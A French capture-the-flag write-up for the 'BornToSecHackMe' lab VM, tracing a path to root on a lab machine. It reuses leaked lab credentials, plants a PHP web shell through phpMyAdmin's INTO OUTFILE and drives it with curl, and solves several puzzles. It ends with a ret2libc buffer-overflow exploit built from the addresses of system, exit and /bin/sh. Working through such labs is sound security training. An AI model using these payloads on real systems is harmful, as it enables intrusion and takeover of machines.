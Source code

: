 Utilisation de dirbuster pour scan le site et trouver des dossiers


# Forum

url: `https://192.168.1.25/forum/index.php?id=6`
```
 Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

user: `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

Connection pour le forum
Dans les parametres on a l'adresse mail: `laurie@borntosec.net`

# Webmail
url: `https://192.168.1.25/webmail/src/webmail.php`
user: `laurie@borntosec.net`
password: `!q\]Ej?*5K5cy*AJ`

Un des mail donne l'acces a la base de donnees:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

# PHPMyAdmin

url: `https://192.168.1.25/phpmyadmin`
user: `root`
password: `Fg-'kKXBj87E:aJ$`

## Inclusion SQL

```
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/forum/templates_c/dd.php"
```

On peut maintenant lancer des commandes avec curl:
`curl -k https://192.168.1.25/forum/templates_c/dd.php?c=<command>`

L'option k permet de ne pas verifier le certificat.

Pour les espaces on utilise %20

Dans home on peut seulement acceder a LOOKATME

A l'interieur on a un fichier password:
`lmezard:G!@M6f4Eatau{sF"`

C'est identifiant correspondent a ceux du serveur ftp

# FTP

connection: `ftp <ip>`
user: `lmezard`
password: `G!@M6f4Eatau{sF"`


En lancant la commande `ls` on trouve deux fichier: README et fun

On utilise get pour recuperer les deux fichiers



# fun

Le fichier README nous indique qu'une fois la solution trouve on aura le mot de passe pour laurie pour la connection ssh

En lancant la commande `file` sur le fichier fun on trouve que c'est une archive tar:

```
fun: POSIX tar archive (GNU)
```

`tar -xf fun`

Une fois cette commande faite, on peut trouver un dossier contenant beaucoup de fichier.


`grep "main" *`

BJPCP.pcap


```
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```
En utilisant: `grep "" *`

getme1() -> 331ZU.pcap -> file5 donc file6 -> APM1E.pcap -> `I`
getme2() -> G7Y8I.pcap -> file37 donc file38 -> ZPY1Q.pcap -> `h`
getme3() -> B62N4.pcap -> file56 donc file57 -> ECOW1.pcap -> `e`
getme4() -> 0T16C.pcap -> file115 donc 116 -> 7DT5Q.pcap -> `a`
getme5() -> 4KAOH.pcap -> file368 donc file369 -> T7VV0.pcap -> `r`
getme6() -> 91CD0.pcap -> file521 donc file522 -> J5LKW.pcap -> `t`
getme7() -> 32O0M.pcap -> file736 donc file737 -> T44J5.pcap -> `p`
getme8() -> `w`
getme9() -> `n`
getme10() -> `a`
getme11() -> `g`
getme12() -> `e`


Resultat: `Iheartpwnage`

On le chiffre maintenant en sha-256: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

On arrive bien a se connecter en ssh avec laurie.


# ssh

## laurie
user: `laurie`
password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`


On trouve dans son repertoire deux fichiers: README et bomb.

On les telecharge avec scp

On verifie l'historique mais on ne trouve rien.

Le readme nous donne comme defi de trouver le mot de passe de thor

On voit en utilisant `nm` que le programme appel system et getenv. Il utilise aussi les sockets.


On utilise gdb sur bomb pour pouvoir le dessassembler
`gdb ./bomb`
`disassemble main`

on voit que le programme separe les phases: phase_{1..6}

Pour la premiere phase il suffit de lire la variable. Pour les suivante on a du comprendre comment fonctionnait chaque phase pour ensuite les dechiffrer en creant des scripts qui sont dans les sources.

Password: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## thor

user: `thor`
password: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

On a code un script python qui permet d'afficher le turtle qui ecrit : SLASH

MD5 -> 646da671ca01bb5d84dbb5fb2238dc8e

## zaz

user: `zaz`
password: `646da671ca01bb5d84dbb5fb2238dc8e`

```
(gdb) r `python -c 'print "A" * 140'`
Starting program: /home/zaz/exploit_me `python -c 'print "A" * 140'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Address system: `0xb7e6b060`

```
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

```

Address exit: `0xb7e5ebe0`

```
(gdb) info proc mappings
process 1844
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fda000 0xb7fdd000     0x3000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0x8048000 to 0xc0000000, "/bin"
A syntax error in expression, near `to 0xc0000000, "/bin"'.
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.

```
Address /bin/sh: `0xb7f8cc58`

```
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'`

id
cd /root
cat README
```

Tu as les droits root !
